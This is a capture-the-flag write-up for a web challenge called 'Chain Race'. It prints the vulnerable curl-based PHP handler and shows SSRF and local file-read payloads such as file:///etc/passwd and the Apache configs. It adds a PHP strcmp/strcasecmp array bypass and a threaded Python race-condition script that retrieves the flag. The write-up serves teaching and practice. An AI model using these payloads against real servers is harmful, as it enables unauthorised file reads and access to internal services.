






# Chain Race
>Points: `472`
>Category: WEB
>Challenge author: Mukhilan Pari, Z3phyr

## Description
>web
>All files are included. Source code is the key.
>http://race.darkctf.example:8999


## Solution

The Challenge link webpage looks like this,



The working of the website is to provide the content as output with URL as an input. To exploit this, we need to understand the working. As below, localhost:80 gives the HTML content of the webpage, and it uses a post parameter called handler in `testhook.php`.




From the above response, localhost is not restricted and also PHP as backend. So, File inclusion is also possible with the payload `file:///etc/passwd`. From here, `testhook.php` file also can be extracted by trying with default path `file:///var/www/html/testhook.php` for full understanding.



```php
<?php 
	// create curl resource 
	$ch = curl_init(); 

	// set url 
	curl_setopt($ch, CURLOPT_URL, $_POST["handler"]); 

	//return the transfer as a string 
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 

	// $output contains the output string 
	$output = curl_exec($ch); 

	// close curl resource to free up system resources 
	curl_close($ch);

	echo $output;
?>
```

PS: Here in the last line we gave the hint as 	`localhost8080:x:5:60:darksecret-hiddenhere:/usr/games/another-server:/usr/sbin/nologin`. This shows localhost8080 is hosted, but this port can’t be accessed outside. So using the working of the website, we can exploit further.


### Without a Hint

From the HTTP response `Server: Apache/2.4.18 (Ubuntu)`, it shows server is hosted in apache. By Enumerating the apache default config file like `file:///etc/apache2/sites-available/000-default.conf` and `file:///etc/apache2/ports.conf` will show you another server is hosted in 8080 port internally.

```
file:///etc/apache2/sites-available/000-default.conf

# If you just change the port or add more ports here, you will likely also
# have to change the VirtualHost statement in
# /etc/apache2/sites-enabled/000-default.conf

Listen 80
Listen 8080

<IfModule ssl_module>
	Listen 443
</IfModule>

<IfModule mod_gnutls.c>
	Listen 443
</IfModule>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet

```


```
file:///etc/apache2/ports.conf

<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

<VirtualHost *:8080>
	ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html1
	ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet

```

By accessing localhost:8080 will give the PHP file.

### PHP string Bypass

In the given index.php, you can see some string operations. It checks for query params `user` and `secret` is set.

```
if(!(isset($_GET['user']) && isset($_GET['secret']))){
    highlight_file("index.php");
    die();
}
The program dies with nope when we encounter these checks to be true
if (($_GET['secret'] == "0x1337") || $_GET['user'] == "admin") {
    die("nope");
}
```
In the first check, the user string is compared with compared with "admin" using strcmp which returns 0 when equal.

```
$login_1 = strcmp($_GET['user'], "admin") ? 1 : 0;
```

the next check is using strcasecmp which performs a byte-by-byte comparison on two strings.

```
if (strcasecmp($_GET['secret'], "0x1337") == 0){
    $login_2 = 1;
}
```

so the vulnerability is on the kind of compares the each api does. `strcmp` can be bypassed when the string is greater than the compared string so that `login_1` becomes one. `strcasecmp` can be bypassed when the string is an array which essentially returns false which is equal to zero setting `login_2` true 




To Bypass unlink, Need to exploit using race condition. For that we need `turbo intruder` or `python script`.

### Turbo Intruder

Generate a word list with 1 to 10000 for continuous hit and use the default script in intruder by providing the generated word list as input. And in `handleresponse` `if dark in req.response` will give you the filtered output.



Execute the turbo intruder will give you the below flag.



### Python Script
This below python script will also give you the answer.

```
import threading
import requests

for i in range(0x200):

    def login():
        s= {'handler':'http://127.0.0.1:8080/index.php?user=admin1212&secret[]'}
        url="http://race.darkctf.example:8999/testhook.php"
        r=requests.post(url,data=s)
        if "darkCTF{" in r.content:
            print r.content
            exit(0)
    
    threading.Thread(target=login).start()
```

### Sanity Checks 
* Usage of `===` instead of `==` 
* `strncasecmp` instead of `strcasecmp` which essentially compares n bytes 
* usage of `file_exists` api before file operations

## Flag
> darkCTF{9h9_15_50_a3fu1}

## Credits
Z3phyr - `https://github.com/GiridharPrasath/ctf/tree/master/darkctf/web`

